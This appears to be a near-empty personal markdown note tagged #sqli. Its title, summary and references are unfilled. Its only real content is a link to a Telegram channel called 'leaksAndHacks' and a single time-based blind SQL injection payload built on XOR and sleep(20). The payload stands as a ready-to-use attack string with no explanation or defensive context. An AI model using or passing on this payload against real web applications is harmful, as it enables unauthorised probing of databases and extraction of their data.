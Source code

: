 ### Title
Tags: #sqli 
Related to: 
See also: 
Previous:

### Body
#### **Summary**: 
Should be short, no prose

#### **Notes**:
https://t.me/leaksAndHacks/430
-10'XOR(if(now()=sysdate(), sleep(20), 0))XOR'Z

### References
- [[]]